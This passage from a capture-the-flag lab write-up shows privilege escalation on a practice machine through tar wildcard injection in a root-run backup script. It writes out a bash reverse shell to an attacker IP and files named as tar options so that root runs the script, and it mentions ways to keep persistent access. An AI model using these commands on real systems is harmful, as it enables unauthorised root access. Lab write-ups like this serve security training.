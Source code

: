 Here's how we can adapt this to fit our scenario:
Currently the `backup.sh` script will essentially run
```bash
tar cf /home/milesdyson/backups/backup.tgz admin ai config etc...
```
Adding all the files in the `/var/www/html directory.` But what if there's files in that directory with names like `--checkpoint=1`? What we can do, is add files into the directory with names that will cause backup.sh to run
```bash
tar cf /home/milesdyson/backups/backup.tgz --checkpoint --checkpoint-action={Whatever We Want }
```
Since `tar` is being executed in the script by root, whatever we execute will be run as root. Since `tar` is running in a script, we can't just `exec=/bin/sh` like in the one liner, as that will just start a shell "for the script", rather than for us. What we can do, is create a bash script to be executed. There are many things we could do with this script: send a reverse shell, create a new user with root privileges, give our current user sudo privileges, edit /etc/passwd to give our current user root privileges, etc. I decided to go with a reverse shell. So here's what I did: First I had to start another reverse shell through the RFI vuln to get back on `www-data`'s account, since I couldn't `su` back to it, and `milesdyson` wasn't allowed to write to `/var/www/html`. Once back on www-data I used these commands:
```bash
echo 'bash -i >& /dev/tcp/$IP/9002 0>&1' > privesc.sh # Basic reverse shell script
echo "doesn't matter" > "--checkpoint-action=exec=bash privesc.sh"
echo "whatever" > --checkpoint=1
```
![rev-shell-root](https://user-images.githubusercontent.com/112681383/205479999-a6093f15-c3ab-4f83-899d-5aa443017ed4.png)

This will cause `tar` to execute `privesc.sh` as root and just like that, we have a reverse shell as root :)
If I was more interested in persistance, I would give `www-data` sudo privileges, as it's quieter than giving `www-data` root access, and it's quicker to get root access, because all I'd have to do is run the RFI reverse shell and sudo bash to become root.
That's all for now!

Hope this writeup was helpful :)
